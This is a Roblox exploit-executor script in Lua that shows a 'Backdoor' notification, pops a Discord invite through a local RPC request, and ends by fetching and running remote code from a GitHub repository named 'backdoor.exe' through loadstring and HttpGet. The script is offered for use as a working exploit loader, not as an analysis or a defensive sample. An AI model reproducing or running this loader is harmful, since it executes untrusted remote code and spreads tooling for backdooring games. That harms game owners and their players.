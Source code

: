 local httpService = game:GetService("HttpService");

local invCode = "xJHCqm84cW";
local httpRequest = (syn and syn.request) or http_request or function() end;

local function launchDiscord()
	if not httpRequest then warn("Exploit not supported. No HTTP found.") return end
	
	httpRequest({
		Url = "http://127.0.0.1:6463/rpc?v=1",
		Method = "POST",
	
		Headers = {
			['Content-Type'] = 'application/json',
			Origin = 'https://discord.com'
		},
	
		Body = httpService:JSONEncode({
			cmd = 'INVITE_BROWSER',
			nonce = httpService:GenerateGUID(false),
			args = {code = invCode}
		})
	})
end;

local NotificationBindable = Instance.new("BindableFunction")
NotificationBindable.OnInvoke = launchDiscord

game:GetService("StarterGui"):SetCore(
	"SendNotification",
	{
		Title = "Backdoor But This time chat is backdoored",
		Duration = 5,
		Text = "Loading lastest version!\n\nJoin our Discord for games, scripts and more",
		Button1 = "Join Discord!",
		Callback = NotificationBindable
	}
)

loadstring(game:HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/v8/src/main.lua"))();
